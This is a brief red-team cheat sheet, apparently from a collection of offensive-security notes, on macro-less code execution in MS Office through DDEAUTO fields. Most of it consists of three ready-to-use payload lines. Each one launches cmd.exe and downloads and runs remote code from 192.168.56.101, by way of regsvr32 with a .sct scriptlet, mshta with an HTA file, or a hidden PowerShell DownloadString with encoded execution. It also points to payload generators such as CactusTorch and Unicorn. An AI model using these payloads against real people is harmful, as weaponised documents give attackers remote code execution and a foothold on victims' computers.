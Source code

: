 ## Macro-Less Code Execution in MS Office via DDE (Dynamic Data Exchange) techniques Cheat-Sheet

- Using `regsvr32` _*.sct_ files technique:
```
DDEAUTO C:\\Programs\\Microsoft\\Office\\MSword.exe\\..\\..\\..\\..\\Windows\\System32\\cmd.exe "/c Microsoft Office Application data   || regsvr32 /s /n /u /i:http://192.168.56.101/empire2.sct scrobj.dll"
```

- Using `HTA` files technique:
```
DDEAUTO C:\\Programs\\Microsoft\\Office\\MSword.exe\\..\\..\\..\\..\\Windows\\System32\\cmd.exe "/c Microsoft Office Application data   || mshta http://192.168.56.101/poc.hta"
```

- Method from Empire - unfortunately unable to hide 'powershell.exe -NoP -sta -NonI' sequence
```
DDEAUTO C:\\Microsoft\\Programs\\Office\\MSWord.exe\\..\\..\\..\\..\\Windows\\System32\\cmd.exe "/k  powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://192.168.56.101/default.ps1');powershell -noP -sta -w 1 -enc $e "
```

- CactusTorch DDE can also generate files in **JS** and **VBS** formats.
They will utilize `cscript` as a file interpreter.

- Another option is to use scripts by _Dominic Spinosa_ found [here](https://github.com/0xdeadbeefJERKY/Office-DDE-Payloads)

- Another option is to stick with `Unicorn` by _Dave Kennedy_


## Sources

- https://medium.com/red-team/dde-payloads-16629f4a2fcd